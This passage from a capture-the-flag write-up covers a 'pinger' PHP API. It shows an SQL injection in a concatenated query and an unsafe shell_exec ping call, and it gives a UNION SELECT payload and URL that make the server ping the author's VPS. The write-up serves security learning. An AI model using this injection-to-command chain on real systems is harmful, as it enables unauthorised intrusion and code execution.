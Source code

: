   * Take an `id` GET parameter
  * Find a row in the `host` SQL table with the `id` column of this parameter
  * Send a `ping` to the host specified in this table row 

The code for this action is found here: https://github.com/ccc-labs/pinger/blob/8fce47791b92f183c0f1a7e033c87bab4881737d/_pingercode_/models/Ping.php#L10

We confirmed that the API can be invoked using the URL `https://ccc.h1ctf.com/2b5d2b11513d2c9b/api/ping?id=1`, although the results of the ping are not visible to the caller.

Upon code review we determined that the SQL code used to load the record from the database is vulnerable to SQL injection due to lack of prepared statements or parameter sanitization:

```python
        $sql = 'select * from host where id = '.$id.' LIMIT 1 ';
```

Unfortunately after some evaluation we determined that there is no visible error or output from the ping command, SQL syntax errors or execution errors are not reported. Furthermore, we cannot use the `sleep` or `benchmark` commands because they are blocked by a WAF, making typical blind time-based SQLi attacks infeasible.

We were stuck here for a bit and then decided to take a look at how the `ping` command was executed. The line of code executing the ping command looks like this:

```python
                    shell_exec('ping -s '.$packet_size.' -c 4 '.$ip.'  > /dev/null &');
```

The `$packet_size` variable is set from the `packet_size` column of the select statement, and the `$ip` variable is set from the `ip` column. By reviewing the DDL for the table located in the Github repository we determined that the column order was: `id, ip, packet_size`.

Initially we thought an approach where we could insert into the table could allow us to achieve RCE by inserting commands into the `ping` command line, unfortunately there was not any way to manipulate the contents of the table - *however* we had a hunch...

Although we couldn't verify that a `UNION` would work, we took a guess that it would. So we were looking for a payload that would UNION a 3-column result set, and some way to validate that we could receive an ICMP ping from this server.

Using our VPS with a public static IP address, we ran `tcpdump` to listen for ICMP traffic, after first confirming that ICMP rules were applied to firewalls and that we could receive ping requests. Running the following command allowed us to listen for inbound ping requests:

```
tcpdump ip proto \\icmp
```

Once we did this we issued a simple UNION to confirm that we could receive a ping from the server: `-1 UNION SELECT 4,'161.35.110.235',32 from user where id=1 limit 1 -- `, making the full query (where `my_ip` is the IP address on my VPS):

```
select * from host where id = -1 UNION SELECT 4,'my_ip',32 from user where id=1 limit 1 -- LIMIT 1`
```

This could be executed with the following URL:
`https://ccc.h1ctf.com/2b5d2b11513d2c9b/api/ping?id=-1%20UNION%20SELECT%204%2c'my_ip'%2c32%20from%20user%20where%20id%3d1%20limit%201%20--%20`
